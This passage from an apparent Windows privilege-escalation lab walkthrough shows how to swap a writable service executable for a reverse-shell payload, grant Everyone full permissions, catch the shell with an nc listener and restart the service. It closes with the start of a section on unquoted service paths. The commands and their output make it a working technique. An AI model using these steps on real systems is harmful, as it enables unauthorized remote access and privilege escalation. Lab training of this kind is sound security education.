 **Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:**
```powershell
C:\> cd C:\PROGRA~2\SYSTEM~1\ 

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp 
	1 file(s) moved. 
	
C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe 
	1 file(s) moved. 

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F 
	Successfully processed 1 files.
```

**We start a reverse listener on our attacker machine:**
```sh
user@attackerpc$ nc -lvp 4445
```
   - And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time.

**Use the following commands from a cmd.exe command prompt:**
```powershell
C:\> sc stop windowsscheduler 
C:\> sc start windowsscheduler
```
**Note:** PowerShell has `sc` as an alias to `Set-Content`, therefore you need to use `sc.exe` in order to control services with PowerShell this way.

**As a result, you'll get a reverse shell with svcusr1 privileges:**
```powershell
user@attackerpc$ nc -lvp 4445 
Listening on 0.0.0.0 4445 
Connection received on 10.10.175.90 50649 
Microsoft Windows [Version 10.0.17763.1821] 
(c) 2018 Microsoft Corporation. All rights reserved. 

C:\Windows\system32>whoami 
wprivesc1\svcusr1
```
Go to svcusr1 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.

## Unquoted Service Paths

   - When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.
   - In Windows, when you set up a service to run a program, it's important to properly handle spaces in the program's file path. If the file path isn't enclosed in double quotes and it contains spaces, it can cause issues. This is known as an "unquoted" executable. It's crucial to use quotes to avoid problems when working with Windows services.
